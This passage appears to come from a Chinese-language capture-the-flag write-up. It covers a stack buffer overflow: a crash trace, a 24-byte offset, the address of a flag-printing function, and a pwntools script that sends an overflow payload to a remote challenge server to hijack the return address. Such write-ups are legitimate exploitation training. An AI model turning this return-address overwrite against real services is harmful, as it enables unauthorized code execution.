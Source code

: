   ```
  Legend: code, data, rodata, value
  Stopped reason: SIGSEGV
  0x41386141 in ?? ()
  ```

  偏移为24


- 找到内部有个函数能直接打印 flag 的函数，地址 0x0804868B

  ![](imgs/system.png)

- exp

  > ```
  > pip3 install pwntools -i https://www.piwheels.org/simple/
  > ```

  ```python
  ##!/usr/bin/env python
  from pwn import*
  
  #r=process('./51ed19eacdea43e3bd67217d08eb8a0e')
  r=remote("220.249.52.133",41723)
  
  system_adr = 0x0804868B
  payload = flat([24*'A',p32(system_adr),(260-24-4)*'A'])
  r.recvuntil("choice:")
  r.sendline('1')
  r.recvuntil("username:")
  r.sendline("atfwus")
  r.recvuntil("passwd:")
  r.sendline(payload)
  r.interactive()
  ```
